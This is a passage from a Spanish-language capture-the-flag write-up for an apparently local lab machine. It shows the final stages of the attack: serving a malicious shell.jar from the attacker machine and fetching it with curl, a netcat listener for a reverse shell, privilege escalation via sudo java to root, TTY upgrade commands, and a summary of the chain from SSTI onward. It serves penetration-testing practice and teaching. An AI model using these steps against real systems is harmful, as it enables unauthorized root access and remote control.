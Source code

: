 #### Transferencia del archivo
Al haber creado el `shell.jar` levantaremos un servidor web en el puerto 8000 en nuestra máquina atacante:

```bash
python3 -m http.server
```

Y en la máquina víctima solicitaremos el archivo:

```bash
curl -O http://172.17.0.1:8000/shell.jar
```

#### Ejecución del exploit
Ahora escucharemos en nuestra máquina atacante el puerto 5555 listos para recibir la reverse shell:

```bash
nc -lvnp 5555
```

Y en la máquina víctima ejecutaremos el script:

```bash
sudo /usr/bin/java -jar shell.jar
```

Recibiremos algo como:
```
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 47256
```

### Mejora del TTY
Ahora haremos la mejora del TTY:

```bash
script /dev/null -c bash
# Ctrl + Z (para suspender la terminal)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
reset
```

Y por último verificamos quiénes somos:

```bash
whoami
# root
```

## Conclusión

**Máquina completada exitosamente**

### Resumen de la explotación:
1. **Reconocimiento:** Escaneo de puertos con nmap
2. **Enumeración web:** Fuzzing con gobuster para descubrir `/console`
3. **SSTI:** Identificación y explotación de Server-Side Template Injection
4. **Reverse shell:** Obtención de acceso inicial mediante payload SSTI
5. **Enumeración de privilegios:** Identificación de sudo con `/usr/bin/java`
6. **Escalada:** Creación y ejecución de JAR malicioso con msfvenom
7. **Root:** Obtención de privilegios de root mediante Java
